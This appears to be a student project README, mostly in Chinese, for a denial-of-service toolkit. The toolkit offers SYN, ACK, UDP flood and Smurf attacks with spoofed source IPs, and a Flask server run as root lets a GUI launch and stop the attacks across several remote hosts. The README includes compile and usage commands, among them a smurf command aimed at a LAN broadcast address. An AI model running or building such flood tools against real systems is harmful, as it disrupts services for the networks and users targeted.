 # 111暑假專案

## Requirements

* 要做出三種不同的DoS攻擊
* 能夠有介面控制不同Host進行攻擊和停止
* DoS程式使用 C C++ 撰寫
* 能夠random source IP

## 構想
使用client-server的架構，在遠端電腦建立flask server，透過request並傳送所需參數完成攻擊和停止指令

## UML
[UML diagram](https://drive.google.com/file/d/1Wl6fYA4naVCfMY4u6Kba2XZunE7Qp2Mz/view?usp=sharing)

![](https://i.imgur.com/7OS6bR3.png)

`Use Case Diagram`

![](https://i.imgur.com/syvTlwX.png)

`Activity Diagram`

![](https://i.imgur.com/FmO4ETZ.png)
`Sequence Diagram`


## 環境
* python 3.5 up

## 攻擊種類
* SYN Flood
* ACK Flood
* UDP Flood
* Smurf

---
# 架設方法
## Server 端
:::danger
 使用root架flask server
:::
```shell=
# cd 111-Dos-project/python/
# python3 server.py

* Running on http://<IP>:9999 (Press CTRL+C to quit)
```

## Client 端




---
## 工具使用方法
### compile
```
$ ./compile.sh
```

### tcp_flood_attack
```
$ sudo ./tcp_attack <IPaddress> <port> <mode>
```

### udp_flood_attack
```
$ sudo ./udp_attack <IPaddress> <port>
```
### smurf_attack

```
$ gcc smurf.c -o tools/smurf_attack
$ sudo ./smurf_attack 192.168.200.55 192.168.200.255

The first ip is attacked address, second is the local area network.
```

## GUI interface使用方法

---
### 安裝套件
pip install PyQt5
pip3 install requests2

```shell=
# cd 111-Dos-project/
# python3 interface.py
